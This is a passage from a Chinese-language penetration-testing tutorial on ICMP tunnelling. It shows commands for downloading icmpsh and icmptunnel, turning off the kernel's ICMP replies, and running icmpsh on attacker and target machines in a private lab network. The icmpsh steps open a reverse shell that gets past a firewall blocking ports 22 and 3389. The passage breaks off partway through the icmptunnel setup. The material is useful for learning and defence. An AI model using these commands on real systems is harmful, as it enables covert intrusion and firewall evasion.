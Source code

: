 icmpsh 使用很简单，直接在 github 上下载，运行时不需要管理员权限，但是在使用时需要关闭本地系统的 ICMP 应答，不然 shell 的运行会不稳定。

```
git clone https://github.com/inquisb/icmpsh.git #下载工具apt-get install python-impacket # 安装依赖，或者 pip2 install impacketsysctl -w net.ipv4.icmp_echo_ignore_all=1  #关闭本地ICMP应答
```

icmpsh 常用命令介绍：

```
-t host            发送ping请求的主机ip地址，即攻击机的IP [该命令必须存在]-d milliseconds    请求时间间隔（毫秒）-o milliseconds    响应超时时间（毫秒）-s bytes           最大数据缓冲区大小（字节）
```

目前有这样的一个场景，攻击机能通过 ICMP 协议访问到目标主机，但是目标上有防火墙，拒绝了敏感端口比如 22、3389 端口的访问，这个时候可以使用 icmpsh 利用 ICMP 协议建立反向 shell

```
攻击机 IP：172.16.214.6目标机 IP：172.16.214.2
```

在攻击机上运行：

```
python2 icmpsh_m.py 172.16.214.6 172.16.214.2
```

在目标机上运行

```
./icmpsh.exe -t 172.16.214.6
```

此时在攻击机上可以看到通过 icmp 协议建立的 shell

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_15-43-51.png)

### icmptunnel

 icmptunnel 的优势在于可以穿过状态防火墙或 NAT，同样在 github 上进行下载，值得注意的是该工具只有 Linux 版。

```
git clone https://github.com/jamesbarlow/icmptunnel.git
cd icmptunnel
make
```

目前有这样的一个场景，攻击者为 Linux，但由于目标存在状态防火墙或者使用了 NAT 导致无法获得 shell，此时可以通过 icmptunnel 绕过限制。

```
攻击机 IP：172.16.214.6
目标机 IP：172.16.214.5
```

在攻击机上运行：

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all		# 禁用 ICMP echo 回复，防止内核自己对ping包进行响应
./icmptunnel -s	# 开启服务端模式
```

在攻击机上新开启一个终端运行：
